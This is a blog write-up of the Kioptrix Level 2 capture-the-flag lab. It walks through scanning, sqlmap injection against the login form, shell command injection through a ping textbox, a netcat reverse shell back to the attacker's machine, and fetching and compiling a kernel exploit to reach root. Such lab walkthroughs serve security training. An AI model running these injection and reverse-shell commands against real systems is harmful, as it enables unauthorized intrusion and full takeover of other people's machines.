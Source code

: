 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Today we are going to solve Kioptrix Level 2. First we need to...
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){: .center-image }

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){: .center-image }

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
set rhosts 192.168.1.101
set rport 3306
run
{% endhighlight %}
<br>
<br>
![mysql](/assets/mysql version result.PNG){: .center-image }
<br>
<br>
Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 
<br>
<br>
![landing](/assets/web landing page.PNG){: .center-image }
<br>
<br>
A login page. Let's use burpsuite, intercept the login and see what we can find out. 
<br>
<br>
![burpsuite](/assets/burpsuite.PNG){: .center-image }
<br>
<br>
Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 
<br>
In terminal we write:
<br>
{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}
<br>
<br>
-u is for URL<br>
--data this is where we put the data from our burpsuite intercept<br>
--level is level of tests to perform from 1-5, may as well max it out<br>
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. <br>
<br>
![sqlmap complete](/assets/sqlmap-complete.PNG){: .center-image }
<br><br>
sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 
<br><br>
Now we are at this page:
<br><br>
![web after login](/assets/webpage after login.PNG){: .center-image }
<br><br>
What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with <br>{% highlight ruby %}nc -lvp 1111{% endhighlight %}<br>I used port 1111, you can use whatever port you wish. 
<br>
Then back in the webapp textbox we need to input<br>{% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}
<br>
Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} shows us this:
<br><br>
![uname](/assets/kernel.PNG){: .center-image }
<br><br>
We now know it's Linux Kernel 2.6.9-55 - Let's google an exploit! <a href="http://www.exploit-db.com/exploits/9542/">This exploit</a> seems like it's gonna work for us! It's been tested on a similar machine to this one. <br><br>Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){: .center-image }

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){: .center-image }


Thanks guys!
